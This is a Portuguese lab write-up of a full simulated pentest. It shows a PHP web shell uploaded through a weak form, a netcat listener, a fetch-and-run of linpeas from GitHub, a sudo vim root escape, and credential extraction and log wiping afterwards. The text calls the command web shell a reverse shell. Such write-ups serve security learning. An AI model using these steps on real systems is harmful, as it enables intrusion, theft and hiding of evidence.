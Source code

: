 ✅ Putting It All Together - Full Report

Objetivo:
Integrar conhecimentos adquiridos nas salas anteriores (DNS, HTTP, Enumeração, Linux, PrivEsc, etc.) para simular um pentest completo contra uma máquina-alvo. O foco é aplicar técnicas reais de reconhecimento, exploração e pós-exploração.


🔧 Ferramentas Utilizadas:

nmap – Enumeração de portas e serviços
gobuster – Força bruta de diretórios
nikto – Scanner de vulnerabilidades web
hydra – Ataques de força bruta
linpeas / lse – Enumeração de privilégios
netcat / socat – Reverse Shells
Burp Suite – Interceptação e manipulação de requisições
John / hashcat – Quebra de senhas


🔍 1. Reconhecimento com Nmap
nmap -sC -sV -oA scan 10.10.X.X

Resultado:
Porta 80: Serviço HTTP rodando com Apache
Porta 22: SSH habilitado

🧠 Análise: Serviço web ativo e possível ponto de entrada via login.


🌐 2. Enumeração Web

gobuster dir -u http://10.10.X.X -w /usr/share/wordlists/dirb/common.txt

Resultado:
/login
/admin
/uploads

💡 Descoberta de diretórios administrativos e de upload — superficialmente ocultos, mas acessíveis.


🧪 3. Exploração
Identificado campo de upload sem validação adequada

Envio de arquivo .php com shell reverso:

<?php system($_GET['cmd']); ?>

Acesso remoto via:
nc -lvnp 4444

⚠️ Shell obtido com privilégio de usuário comum.


🧱 4. Escalada de Privilégio
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh

🔍 Descoberta:
Arquivo sudoers permite execução de vim como root sem senha.

Exploração:
sudo vim -c '!sh'

✅ Root access obtido!


🔑 5. Pós-Exploração

Acesso ao root.txt
Extração de credenciais armazenadas em .bash_history e arquivos de configuração
Limpeza de rastros no .bash_history, wtmp, auth.log (opcional)


🧠 Lições Aprendidas:
Combinação de ferramentas e metodologia leva a comprometimento total do sistema
Verificação de upload de arquivos é crucial em segurança web
Pequenos detalhes como permissões de sudo mal configuradas podem permitir root
A análise pós-exploração é importante para entender o que mais poderia ser comprometido

